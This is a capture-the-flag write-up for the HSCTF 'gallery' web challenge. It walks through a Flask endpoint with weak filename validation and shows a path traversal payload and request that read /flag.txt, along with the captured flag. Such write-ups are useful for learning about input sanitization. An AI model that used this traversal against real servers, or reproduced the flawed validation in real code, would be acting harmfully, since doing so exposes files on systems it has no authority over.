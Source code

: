 ## Introduction
The _gallery_ was a Web challenge presented at the [HSCTF](https://ctf.hsctf.com/). The challenge linked to a website and contained the code of the website.

The website showed a collection of images:
![image](https://user-images.githubusercontent.com/26695258/173675629-c041e269-ab09-4dcc-9d80-e888c825366e.png)

The code contained the following endpoint:

```python
@app.route("/flag")
def flag():
	if 2 + 2 == 5:
		return send_file("/flag.txt")
	else:
		return "No.", 400

```

Since the `if` branch is impossible to achieve, an attack is needed to get the flag.

## Attack vector
Apart from the `flag` endpoint there are two more endpoints present in the code. The root path simply renders the `index.html`. It does not present any interesting opportunities:
```python
@app.route("/")
def index():
	images = [p.name for p in IMAGE_FOLDER.iterdir()]
	return render_template("index.html", images=images)
```

The other endpoint is more promising:
```python
@app.route("/image")
def image():
	if "image" not in request.args:
		return "Image not provided", 400
	if ".jpg" not in request.args["image"]:
		return "Invalid filename", 400
	
	file = IMAGE_FOLDER.joinpath(Path(request.args["image"]))
	if not file.is_relative_to(IMAGE_FOLDER):
		return "Invalid filename", 400
	
	try:
		return send_file(file.resolve())
	except FileNotFoundError:
		return "File does not exist", 400
```

The endpoint sends a file using a request parameter to resolve its path. The IMAGE_FOLDER is defined in code as `/images`. An example request could be:

`GET /image?image=ImageName.jpg`

This request would return an image found in the server's filesystem under path: `/images/ImageName.jpg`. The flag's location is `/flag.txt`.

The validation in the method forces the request to fulfil the following criteria:
- it contain the parameter `image`
- the parameter `image` contains string `.jpg`
- the parameter `image` is relative to the /images folder (can't be an absolute path)

## Execution

The parameter's value that meets the requirements and exploits the website it:

`image.jpg/../../../../../../../../flag.txt`

The Operating System resolves the path in the following way:
1. start in the `/images/image.jpg`
2. move up the file tree multiple times (the multiple `..` ensures we land in the root directory)
3. resolve a file `flag.txt` in the foot directory

To sum up, the exploit request is:

`GET /image?image=image.jpg/../../../../../../../../flag.txt`

and it returns the flag:

`flag{1616109079_is_a_cool_number}`

Conclusion: sanitize user input 😁

---
_HSCTF 9 was held on 06-11.06.2022_

_Shout out to [kzawistowski](https://github.com/kzawistowski) for participating in the CTF with me!_
